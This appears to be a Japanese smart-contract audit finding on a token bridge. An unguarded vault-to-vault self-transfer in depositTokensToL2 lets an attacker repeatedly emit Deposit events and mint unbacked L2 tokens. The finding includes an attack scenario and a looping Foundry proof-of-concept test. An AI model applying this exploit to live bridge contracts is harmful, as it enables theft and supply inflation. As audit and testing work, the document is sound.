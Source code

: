 **攻撃シナリオ:**

1. 攻撃者が外部からVaultに500トークンを直接送信（`transfer`で）
2. `depositTokensToL2(address(vault), attacker, 500e18)`を呼び出し
3. VaultからVaultへの自己転送が成功（Vaultは自身にBridgeを通じて無制限承認済み）
4. `Deposit(vault, attacker, 500e18)`イベントが発行される
5. オフチェーンサービスがこのイベントを検知し、L2で500トークンをミント
6. 攻撃者は何も失わずL2で500トークンを獲得
7. **無限に繰り返し可能** - 同じVault内のトークンを使い回せる

**影響:**
- **重大度:** HIGH
- **影響度:** HIGH - 無制限のトークンミント、総供給量の破壊
- **発生確率:** MEDIUM - 事前にVaultへのトークン送信が必要
- L2での無限トークン生成
- L1/L2間の供給量不整合

**概念実証コード (PoC):**
```solidity
function testVaultSelfTransferAttack() public {
    address attacker = makeAddr("attacker");
    uint256 vaultBalance = 500 ether;

    // Vaultに直接トークンを送信（通常のデポジットではない）
    deal(address(token), address(vault), vaultBalance);

    // 無限に繰り返し可能 - 同じトークンを使い回す
    for (uint i = 0; i < 10; i++) {
        vm.expectEmit(true, true, true, true, address(tokenBridge));
        emit Deposit(address(vault), attacker, vaultBalance);
        tokenBridge.depositTokensToL2(address(vault), attacker, vaultBalance);
    }

    // 結果: 攻撃者はL2で 500 * 10 = 5000 トークンを獲得
    // しかしL1では500トークンしか消費していない
    // L2総供給量 = L1総供給量 + 4500 (不正増加)
}
```

**テストコード修正:**
```solidity
// 元のテストコード（vm.startEmitはエラー）
function testCanTransferVaultToVault() public {
    address attacker = makeAddr("attacker");
    uint256 vaultBalance = 500 ether;
    deal(address(token), address(vault), vaultBalance);

    // ❌ vm.startEmit は存在しない
    vm.startEmit(address(tokenBridge));
    emit Deposit(attacker, attacker, vaultBalance);
    tokenBridge.depositTokensToL2(address(vault), attacker, vaultBalance);
}

// 修正版（vm.expectEmitを使用）
function testCanTransferVaultToVault() public {
    address attacker = makeAddr("attacker");
    uint256 vaultBalance = 500 ether;
    deal(address(token), address(vault), vaultBalance);

    // ✅ vm.expectEmit(checkTopic1, checkTopic2, checkTopic3, checkData, emitter)
    vm.expectEmit(true, true, true, true, address(tokenBridge));
    emit Deposit(address(vault), attacker, vaultBalance);
    tokenBridge.depositTokensToL2(address(vault), attacker, vaultBalance);
}
```
